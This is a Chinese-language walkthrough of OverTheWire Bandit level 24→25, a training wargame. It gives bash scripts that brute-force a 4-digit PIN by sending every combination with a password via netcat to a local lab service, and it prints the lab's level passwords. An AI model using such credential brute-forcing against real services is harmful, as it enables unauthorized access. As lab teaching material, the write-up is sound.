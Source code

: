 # Bandit Level 24 → Level 25 攻略 🔢

## 关卡目标 🎯

本关卡的目标是编写一个脚本，通过暴力破解一个4位数字PIN码，将当前级别的密码和PIN码提交到本地主机的30002端口，以获取下一关的密码。

## 所需知识 📚

### 暴力破解 🔨

暴力破解是一种通过尝试所有可能的组合来找到正确答案的方法。在这个关卡中，我们需要尝试所有可能的4位数字PIN码（0000-9999）。

### Shell脚本循环 🔄

我们需要使用shell脚本的循环结构来生成所有可能的PIN码。

### 网络通信 🌐

我们需要使用网络工具（如`nc`）将密码和PIN码发送到指定的端口。

### 文件I/O和重定向 📄

我们需要使用文件I/O和重定向来处理大量的输出数据。

## 详细解题步骤 📝

### 1. 登录游戏服务器 🔐

使用上一关获得的密码登录服务器：

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

密码：`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

### 2. 获取当前级别的密码 🔑

我们需要知道当前级别（bandit24）的密码，以便发送给服务器：

```bash
cat /etc/bandit_pass/bandit24
```

输出结果应该显示bandit24的密码：

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### 3. 测试服务器 🧪

首先，我们可以尝试连接到服务器，看看它的响应：

```bash
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234" | nc localhost 30002
```

输出结果可能类似于：

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

这表明我们需要提供正确的密码和PIN码才能获取下一关的密码。

### 4. 创建临时目录 📂

我们需要创建一个临时目录来存储我们的脚本和输出文件：

```bash
mkdir -p /tmp/bandit24_to_25
cd /tmp/bandit24_to_25
```

### 5. 编写暴力破解脚本 📝

现在我们需要编写一个脚本，生成所有可能的PIN码并将它们与密码一起发送到服务器：

```bash
nano brute_force.sh
```

在编辑器中输入以下内容：

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# 生成所有可能的PIN码并将它们与密码一起保存到文件中
for pin in {0000..9999}; do
    echo "$password $pin"
done > pins.txt

# 将生成的密码和PIN码发送到服务器
cat pins.txt | nc localhost 30002 > output.txt

# 查找包含密码的行
grep -v "Wrong" output.txt
```

保存并退出编辑器（在nano中，按Ctrl+O保存，然后按Ctrl+X退出）。

### 6. 设置脚本权限 🔒

我们需要确保脚本具有执行权限：

```bash
chmod +x brute_force.sh
```

### 7. 执行脚本 🚀

现在我们可以执行脚本：

```bash
./brute_force.sh
```

脚本会生成所有可能的PIN码，将它们与密码一起发送到服务器，并将输出保存到`output.txt`文件中。这个过程可能需要一些时间。

### 8. 查看结果 🔍

脚本执行完成后，我们可以查看输出文件，找到包含密码的行：

```bash
cat output.txt | grep -v "Wrong"
```

输出结果应该包含下一关的密码：

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### 9. 优化方法（可选）🔄

上述方法可能需要较长时间执行。我们可以使用更高效的方法，例如将PIN码分批发送：

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# 创建一个临时文件
touch result.txt

# 分批生成PIN码并发送
for i in {0..9}; do
    for j in {0..9}; do
        for k in {0..9}; do
            for l in {0..9}; do
                echo "$password $i$j$k$l"
            done
        done
    done | nc localhost 30002 >> result.txt
done

# 查找包含密码的行
grep -v "Wrong" result.txt
```

这个脚本将PIN码分成多批发送，可能会更快地找到正确的PIN码。

## 命令解释 🔍

- `for pin in {0000..9999}; do echo "$password $pin"; done > pins.txt`：
  - `for pin in {0000..9999}; do ... done`：循环生成所有可能的4位数字PIN码
  - `echo "$password $pin"`：将密码和PIN码组合成一行
  - `> pins.txt`：将输出重定向到`pins.txt`文件
- `cat pins.txt | nc localhost 30002 > output.txt`：
  - `cat pins.txt`：读取`pins.txt`文件的内容
  - `|`：管道操作符，将前一个命令的输出作为后一个命令的输入
  - `nc localhost 30002`：使用netcat连接到本地主机的30002端口
  - `> output.txt`：将输出重定向到`output.txt`文件
- `grep -v "Wrong" output.txt`：
  - `grep`：搜索文本
  - `-v`：反向匹配，显示不包含指定模式的行
  - `"Wrong"`：要排除的模式
  - `output.txt`：要搜索的文件

## 学习要点总结 📌

1. **暴力破解基础** - 学习了如何使用暴力破解方法尝试所有可能的组合
2. **Shell脚本循环** - 了解了如何使用shell脚本的循环结构生成数据
3. **网络通信** - 学习了如何使用netcat与网络服务通信
4. **文件I/O和重定向** - 了解了如何使用文件I/O和重定向处理大量数据

## 提示 💡

- 暴力破解是一种最后手段的方法，通常效率较低，但在某些情况下是唯一的选择
- 在实际应用中，应该尽量避免使用暴力破解，因为它可能违反服务条款或法律
- 使用分批处理可以提高暴力破解的效率，但仍然需要较长时间
- 在处理大量数据时，使用文件而不是直接在终端显示可以提高效率

## 下一步 ⏭️

使用获得的密码登录到Level 25：

```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

密码：`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

## 相关资源 🔗

- [Bash循环结构详解](./resource/level24→level25/Bash循环结构详解.md)
- [Netcat (nc) 命令详解](./resource/level24→level25/Netcat命令详解.md)
- [Linux文件I/O和重定向](./resource/level24→level25/Linux文件IO和重定向.md)
